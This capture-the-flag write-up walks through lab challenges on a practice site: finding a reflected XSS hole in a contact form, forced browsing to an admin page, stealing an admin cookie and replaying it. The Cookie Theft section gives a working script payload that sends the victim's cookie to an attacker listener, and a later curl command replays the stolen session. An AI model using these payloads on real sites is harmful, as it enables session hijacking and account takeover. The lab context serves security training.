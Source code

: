 # Contact

* Challenge - Interact with the contact form on the http://www.issplaylist.com website. What is the flag returned as the reference number?
* Points - 3

First, I navigated to the website in the question. From there, I clicked Contact in the navbar at the top of the site to go to the contact form. After that, I submitted the form with expected input to get the flag. 

![Contact-2](https://github.com/user-attachments/assets/b6e69b17-d014-40da-a89b-01f74dc2b186)
![396193111-3f8a0591-ff61-47d9-ad03-60ac8a6ae1ed](https://github.com/user-attachments/assets/b1380dc0-ccd7-44f8-8536-92d8d0bebf16)


# Vulnerability Discovery

* Challenge - Explore the Contact page on the http://www.issplaylist.com website to identify a vulnerability. Identify the type of vulnerability.
* Points - 5
* Answer - Cross-Site Scripting

First, I tried experiemnting with including a ' in the fields to get an SQL error. That did not work, as I got the same flag as the previous challenge. 
![Vulnerability Discovery-2](https://github.com/user-attachments/assets/0e6de2c5-1d7d-4132-9b4d-613c304e6b7c)

Then I tested for an XSS vulnerability by typing the hr HTML tag into each field of the contact form. I noticed the horizontal line from the hr HTML tag was displayed on the page. 
![Vulnerability Discovery-3](https://github.com/user-attachments/assets/f4add8de-bcef-4607-85cd-37f41ae9ea2f)

This means my input was reflected on the page. To confirm this, I viewed the page source, and used CTRL + F to look for my input, the hr HTML tag. The page source shows my input. All of this means that the site is vulnerable to XSS, but specifically reflected XSS. 
![Vulnerability Discovery-4](https://github.com/user-attachments/assets/41bba667-32ad-4ad5-b657-65ed34138328)


# Forced Browsing

* Challenge - Identify the hidden page on the http://www.issplaylist.com server. Submit the page name (XXXXX.html).
* Points - 5
* Answer - admin.html

Typically, admin pages are hidden from normal users. If a web server is misconfigured, you can just go straight to the admin page with a forced browsing attack. From the question, we know the page name is five characters. So I typed issplaylist.com/admin.html in my browser and saw an admin page. 
![Forced Browsing-2](https://github.com/user-attachments/assets/17690325-9e0f-4325-b4b2-1b41ab424daf)

# Cookie Theft

* Challenge - Administrators for the http://www.issplaylist.com site frequently examine the contact page submissions using their browsers. Exploit the site vulnerability to steal cookie content from the administrator. What is the name of the cookie used to authenticate administrative users?
* Points - 5
* Answer - wwwlogincookie

From the Vulnerability Discovery challenge, I know the site is vulnerable to reflected XSS. From Lab 4.4, SANS supplied to us a cookiecatcher PHP file. I started a PHP web server to listen for the cookie.

![Cookie Theft-2](https://github.com/user-attachments/assets/2c7745ff-5355-45e6-b776-8a5f270ba28d)

After starting the listener on my attacker terminal, I went back to the browser. At the contact form, I put the following string in all of the fields then submited the form - <script>document.location='http://10.142.148.12:2222/?'+document.cookie;</script>

![Cookie Theft-3](https://github.com/user-attachments/assets/27d2e9b7-6333-4f3a-9d7d-363310cc713b)


Going back to my attacker terminal, where the cookiecatcher file is running, I can see the name of the stolen cookie. 

![Cookie Theft-4](https://github.com/user-attachments/assets/fb3b55f2-da85-4847-927a-7a633a6b07a5)


# Unauthorized Access

* Challenge - Use the stolen cookie to access the admin page. Submit the flag.
* Points - 5
* Answer - NetWars{AdminAccessIsBest}

Now that I have the cookie for admin from the Cookie Theft challenge, I can use curl and the -b argument to specify a token and return the content of that page as if I were logging in as admin. In my attacker terminal, I ran the following command: 
* curl -b wwwlogincookie=0f186582606b62965d90e772e76a8a5620b11af9 "http://www.issplaylist.com/admin.html"

This returned the admin page output. Scroll down to see the flag. 
![Unauthorized Access-2](https://github.com/user-attachments/assets/922e6443-10d2-454e-bd81-05d523dab0ac)
![Unauthorized Access-3](https://github.com/user-attachments/assets/ee50190d-5dd2-42a7-9b40-7845162253c9)
